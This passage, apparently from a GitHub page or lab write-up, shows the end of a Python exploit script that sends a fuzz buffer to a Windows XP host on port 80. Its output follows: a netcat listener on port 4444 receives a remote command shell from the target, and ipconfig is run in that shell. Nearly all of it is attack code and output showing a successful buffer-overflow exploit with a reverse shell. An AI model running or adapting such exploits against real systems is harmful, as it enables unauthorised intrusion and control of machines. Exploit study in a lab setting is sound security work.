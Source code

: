 ```

	buff += fuzz

	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("192.168.0.105", 80))
	s.send(buff)
	s.close()

except Exception as e:
	print str(e)
	sys.exit(1)
```


```
❯ python exploit.py
[+] Sending buffer

──────────────────────────────────────────────────────────────

❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.105] 1100
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : 
        IP Address. . . . . . . . . . . . : 192.168.0.105
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.0.1
```

